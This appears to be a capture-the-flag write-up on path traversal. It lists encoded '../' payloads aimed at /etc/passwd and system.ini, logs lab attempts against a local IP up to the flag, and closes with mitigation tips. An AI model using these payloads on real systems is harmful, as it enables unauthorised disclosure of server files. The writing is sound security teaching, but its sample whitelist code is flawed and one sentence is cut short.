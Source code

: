 ### Title: <span style="color:blue">Path traversal - directory traversal - dot dot slash attacks</span>

This type of attack forces access to files, directories, and commands that are located outside the web document root directory.
`web document root`: refers to the root directory of a web server where the web documents (such as HTML, CSS, JavaScript files, and images) are stored.

an attacker can exploit a `URL` in a way that the web site executes or discloses contents of files on the web server. Even though most web sites restrict user access to the web `document root` or `CGI root `directory, an attacker can gain access to these directories by using special character sequences.
The `../` sequence is a common sequence used by an attacker to access files or to execute commands on the `file system`. the following alternate encodings of this sequence that might be used to bypass security filters:

* `Input Validation`: Lack of proper input validation allows attackers to inject "../" or similar sequences into input fields, such as URLs, to navigate to unauthorized directories.
> Vulnerable URL: http://example.com/viewfile?file=../../../../../etc/passwd
> If the application does not properly validate the "file" parameter, an attacker can use "../" sequences to navigate to sensitive system files like /etc/passwd.

* `URL Encoding`: using URL-encoded (%2e%2e%2f) to bypass input validation and navigate up the directory tree.
>Vulnerable URL: https://example.com/viewfile?file=%2e%2e%2f%2e%2e%2fetc/passwd
>Here, the "../" sequence is URL-encoded as "%2e%2e%2f", allowing the attacker to navigate to the /etc/passwd file.


* `Null Byte (%00)`: Some older systems interpret a null byte (%00) as the end of a string. Attackers can use this to truncate the path and access files or directories they shouldn't.
>Vulnerable URL: http://example.com/viewfile?file=../../../../etc/passwd%00


* `Double URL Encoding`: (%252e%252e%252f) to evade detection by security mechanisms that decode URLs.-
>Vulnerable URL: http://example.com/viewfile?file=%252e%252e%252f%252e%252e%252fetc/passwd

* `Encoded Slashes`: encoded versions of slashes (%2f) to traverse directories, especially in cases where the application does not decode URL-encoded characters correctly.
>Vulnerable URL: https://example.com/viewfile?file=%2f%2e%2e%2f%2e%2e%2fetc/passwd


* `Windows Path Traversal`: On Windows systems, backslashes are used instead of slashes (/) to perform a traverse attack to directories and access sensitive files like `system.ini`.
>Vulnerable URL: https://example.com/viewfile?file=..\..\..\..\Windows\system.ini

* `Relative/Absolute Paths`: Understanding whether the application uses relative or absolute paths for file operations.
suppose an application uses relative paths for file operations and expects user input like filename.txt. An attacker can manipulate the input to access a file outside the intended directory, e.g., ../../../../../etc/passwd.

**Location:** `page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`

**Step0**
in this location, it appears in the location setetd before, could be vulnerable to path traversal attacks if not properly sanitized:

we tried : http://10.13.100.74/?page=../../etc/passwd: an alert shows wtf
we tried : http://10.13.100.74/?page=../.././../../../etc/passwd: an alert shows nope
we tried : http://10.13.100.74/?page=../../../../../../../../../etc/passwd: an alert shows almost
we  keep tring : http://10.13.100.74/?page=../../../../../../../../../etc/passwd: teh alert shows now a diffrent message

Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
>NOTE
> etc/passwd is a common file used to demonstrate directory traversal, as it is often used by crackers to try cracking the passwords.


**To prevent**
To mitigate traversal attacks, it's important to validate and sanitize user input, especially when dealing with file paths or URLs, and to restrict access permissions to sensitive files and directories.
you can take several measures:

* `input validation`: Validate and sanitize all user input, especially file paths and URLs, to ensure they do not contain any malicious characters or sequences.

Javascript example: 
// function sanitizeInput(input) {
//   return input.replace(/[^a-z0-9]/gi, ''); // Remove all non-alphanumeric characters
//}

* `Use Whitelists`: to specify allowed `file paths` or `directories` that users can access. This helps prevent unauthorized access to sensitive files.

php example:
// $allowedDirectories = ['/var/www/html/uploads/', '/var/www/html/images/'];
// $userInput = $_GET['file'];

// if (in_array($userInput, $allowedDirectories)) {
    // Access the file
// } else {
    // Return an error
//}

* Limit File Permissions: Ensure that the web server process has limited permissions and can only access files and directories necessary for its operation. for example in nginx server, the www-data user is created during the its installation and is configured in the Nginx configuration files. By default, the www-data user does not have root privileges and has limited access to the file system.


* `secure framework`: Use a secure development framework, such as Django (Python) or Spring Boot (Java), which includes built-in protections against common attacks like directory traversal.


* `Logging and Monitoring`: Implement logging and monitoring to detect and respond to suspicious activity, such as multiple failed directory traversal attem

**Resources**

What is directory traversal: https://www.youtube.com/watch?v=NQwUDLMOrHo&t=140s
Directory traversal: https://www.invicti.com/learn/directory-traversal-path-traversal/